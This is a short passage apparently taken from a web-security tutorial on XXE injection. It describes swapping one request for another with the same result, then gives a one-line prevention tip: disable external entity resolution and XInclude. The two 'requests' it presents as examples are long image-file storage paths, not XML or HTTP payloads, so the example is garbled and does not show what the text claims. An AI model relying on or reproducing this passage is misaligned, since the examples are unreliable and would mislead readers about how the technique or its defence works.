For example, if a normal request contains the following:



Then you might be able submit the following request, with the same result:




# How to prevent XXE vulnerabilities

disable resolution of external entities and disable support for `XInclude`


